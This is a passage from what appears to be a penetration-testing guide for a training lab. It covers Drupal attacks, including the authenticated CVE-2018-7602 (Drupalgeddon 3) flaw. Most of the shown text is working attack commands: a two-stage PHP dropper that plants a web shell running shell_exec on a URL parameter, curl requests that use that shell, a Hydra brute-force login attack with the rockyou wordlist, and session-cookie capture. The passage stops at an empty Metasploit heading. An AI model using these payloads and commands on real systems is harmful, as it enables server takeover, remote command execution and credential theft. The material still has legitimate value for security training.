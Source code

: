 **Advanced Payload Deployment:**
```bash
# Multi-stage payload for stealth
# Stage 1: Upload minimal dropper
echo '<?php file_put_contents("config.php", base64_decode($_GET["data"])); ?>' | base64

# Stage 2: Deploy full web shell via dropper
full_shell='<?php if(isset($_GET["cmd"])){echo "<pre>".shell_exec($_GET["cmd"])."</pre>";} ?>'
curl "http://target.com/dropper.php?data=$(echo $full_shell | base64 -w 0)"

# Stage 3: Execute commands via deployed shell
curl "http://target.com/config.php?cmd=whoami"
```

### CVE-2018-7602: Drupalgeddon 3 (Authenticated RCE)

#### Vulnerability Details
```bash
# CVE-2018-7602 Overview:
Affected Versions: Drupal 7.x, 8.x (multiple versions)
CVSS Score: 8.1 (High)
Attack Vector: Authenticated remote code execution
Requirements: User with node deletion permissions
Mechanism: Form API validation bypass
```

#### Prerequisites & Session Management

**Obtaining Valid Session:**
```bash
# Method 1: Credential brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt drupal-acc.inlanefreight.local http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login:Sorry"

# Method 2: Session hijacking (if applicable)
# Capture session cookies via network monitoring

# Method 3: Drupalgeddon 1/2 → session establishment
# Use previous exploits to create admin account
```

**Session Cookie Extraction:**
```bash
# Login and capture session
curl -c cookies.txt -d "name=admin&pass=password&form_id=user_login" \
  "http://drupal-acc.inlanefreight.local/user/login"

# Extract session cookie value
grep SESS cookies.txt | awk '{print $7}'
# Example: SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
```

#### Metasploit Exploitation

